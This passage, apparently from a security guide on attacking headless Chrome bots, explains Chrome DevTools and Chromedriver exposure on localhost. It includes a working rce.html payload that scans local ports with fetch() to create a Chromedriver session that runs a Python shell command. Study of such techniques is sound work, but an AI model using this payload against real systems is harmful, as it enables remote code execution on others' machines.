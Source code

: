 If you are somehow able to read the response to a `http://localhost:9222/json` request to get the `webSocketDebuggerUrl`, _and_ are allowed to connect to it by your origin inside the `--remote-allow-origins` argument, you can even send such commands using the common [WebSocket API](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API) from a malicious website:

<details><summary>CDP WebSocket implementation in JavaScript</summary></details>

## Chromedriver

Chromedriver is another implementation of an instrumentation tool, which by default listens on a random port in the range defined by `/proc/sys/net/ipv4/ip_local_port_range` (32768-60999), often seen with a `--port` argument in the process list. It  implements the [W3C WebDriver spec](https://www.w3.org/TR/webdriver2/), which includes a [`POST /session`](https://www.w3.org/TR/webdriver2/#new-session) endpoint.

The vulnerability mentioned in "wont-fix" [issue 40052697](https://issuetracker.google.com/issues/40052697) is that this endpoint allows all `localhost` origins by default. There is no other CSRF protection, as the JSON body doesn't need a valid `Content-Type:` header. It becomes a [CORS Simple Request](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS#simple_requests), which you can send easily using `fetch()`.&#x20;

The requirement for this is either having **XSS on a localhost origin**, from there you can call this endpoint to spawn a new session with custom `binary` and `args` options that result in RCE:

<pre class="language-html" data-title="rce.html"><code class="lang-html">&#x3C;script>
  const options = {
    mode: "no-cors",
    method: "POST",
    body: JSON.stringify({
      capabilities: {
        alwaysMatch: {
          "goog:chromeOptions": {
            binary: "/usr/local/bin/python",
<strong>            args: ["-c", "__import__('os').system('id > /tmp/pwned')"],
</strong>          },
        },
      },
    }),
  };

  for (let port = 32768; port &#x3C; 61000; port++) {
    fetch(`http://127.0.0.1:${port}/session`, options);
  }
&#x3C;/script>
</code></pre>

If the above `for` loop completes on a localhost origin, you should have seen the command execute by finding the output of `id` inside `/tmp/pwned`.

## CVEs

The following sections describe older vulnerabilities in Chrome that were patched in some recent version, but the bot could still be outdated before any of the mentioned versions. These range from file reads to full on RCEs in some cases.
